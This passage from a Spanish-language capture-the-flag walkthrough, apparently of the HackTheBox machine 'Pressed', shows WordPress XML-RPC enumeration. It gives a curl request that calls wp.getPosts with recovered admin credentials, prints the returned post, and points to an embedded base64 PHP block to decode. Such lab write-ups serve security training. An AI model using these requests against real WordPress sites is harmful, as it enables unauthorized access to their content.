 ```shell
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
```
Podemos ver varios endpoints para solicitar información, analizándolos vemos que hay uno que tiene getPosts, procedemos a enumerar esta por medio de peticiones por xml, esto se puede encontrar en la documentacion de xmlrpc. Ponemos usuario y contraseña que encontramos cambiar 2021 por 2022 y obtenemos el post que se está mostrando en la página web. En este nos encotramos con una porción de código en base64 por lo que intentamos descifrarlo.

```console 
❯ curl --data "<methodCall><methodName>wp.getPosts</methodName><param><value><int>1</int></value></param><params><param><value><string>admin</string></value></param><param><value><string>uhc-jan-finals-2022</string></value></param></params></methodCall>" http://pressed.htb/xmlrpc.php
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>post_id</name><value><string>1</string></value></member>
  <member><name>post_title</name><value><string>UHC January Finals Under Way</string></value></member>
  <member><name>post_date</name><value><dateTime.iso8601>20220128T14:29:53</dateTime.iso8601></value></member>
  <member><name>post_date_gmt</name><value><dateTime.iso8601>20220128T14:29:53</dateTime.iso8601></value></member>
  <member><name>post_modified</name><value><dateTime.iso8601>20220128T18:17:45</dateTime.iso8601></value></member>
  <member><name>post_modified_gmt</name><value><dateTime.iso8601>20220128T18:17:45</dateTime.iso8601></value></member>
  <member><name>post_status</name><value><string>publish</string></value></member>
  <member><name>post_type</name><value><string>post</string></value></member>
  <member><name>post_name</name><value><string>hello-world</string></value></member>
  <member><name>post_author</name><value><string>1</string></value></member>
  <member><name>post_password</name><value><string></string></value></member>
  <member><name>post_excerpt</name><value><string></string></value></member>
  <member><name>post_content</name><value><string>&lt;!-- wp:paragraph --&gt;
&lt;p&gt;The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.&lt;/p&gt;
&lt;!-- /wp:paragraph --&gt;

&lt;!-- wp:php-everywhere-block/php {&quot;code&quot;:&quot;JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=&quot;,&quot;version&quot;:&quot;3.0.0&quot;} /--&gt;
```